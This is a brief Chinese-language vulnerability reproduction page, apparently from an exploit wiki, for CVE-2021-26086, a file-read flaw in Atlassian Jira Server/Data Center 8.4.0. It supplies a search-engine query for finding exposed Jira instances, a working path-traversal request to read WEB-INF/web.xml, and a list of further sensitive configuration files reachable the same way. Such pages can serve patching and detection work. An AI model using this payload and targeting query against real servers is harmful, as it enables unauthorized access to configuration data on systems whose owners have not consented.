

# Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

<a-checkbox checked>Atlassian Jira Server/Data Center 8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```php
/s/cfx/_/;/WEB-INF/web.xml
```



可读取敏感配置文件

```php
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

